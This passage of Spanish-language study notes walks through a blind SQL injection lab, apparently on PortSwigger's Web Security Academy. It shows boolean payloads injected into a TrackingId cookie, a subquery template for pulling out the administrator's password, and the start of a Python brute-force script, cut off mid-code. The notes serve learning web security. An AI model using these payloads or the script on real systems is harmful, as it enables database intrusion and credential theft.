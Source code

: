 si agregamos una letra o numero, seguro seria un **TrackingId** invalido y no retornara el mensaje:

![[Pasted image 20230212172245.png]]

bajo este criterio podriamos jugar con condicionales:

>[!note]
>Tenemos que usar el operador `and` en estos casos.

```bash
TrackingId='zaPfzRCR8IdECfqg' and 1=1-- - # V y V = V (con mensaje)
TrackingId='zaPfzRCR8IdECfqg' and 2=1-- - # V y F = F (sin mensaje)
```

![[Pasted image 20230212172425.png]]

![[Pasted image 20230212172447.png]]

podemos empezar a descubrir informacion mediante subquery:

```bash
TrackingId='zaPfzRCR8IdECfqg' and (SUB-QUERY)=1-- -
```

>[!important]
>Mediante Blind SQLi es complicado poder enumerar toda la base de datos, puede ver la seccion de [[#BLIND SQL PAYLOADS]] para intentar descubrir database, tables, colums, data.

Existe una tabla llamada `users` con los campos `username` y `password`, necesitamos descubrir la contraseña del usuario `administrator`.

nos creamos el siguiente script en python3:

```bash
pip3 install pwntools
```

descubrimiento de la longitud de la contraseña:

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

#funcion para contral Ctrl+C
def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
#ctr+c
signal.signal(signal.SIGINT, def_handler)

#URL a atacar
main_url = "https://0a1c006403ea1237c1a02269008e0063.web-security-academy.net/"

def makeRequest():
	#variable que almacenara la longitud
    logitud = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Longitud")

	#ciclo para validar la longitud entre 1 y 50 caracteres
    for position in range(1,50):
	    # el blind sqli se encunetra en las cookies
        cookies = {
```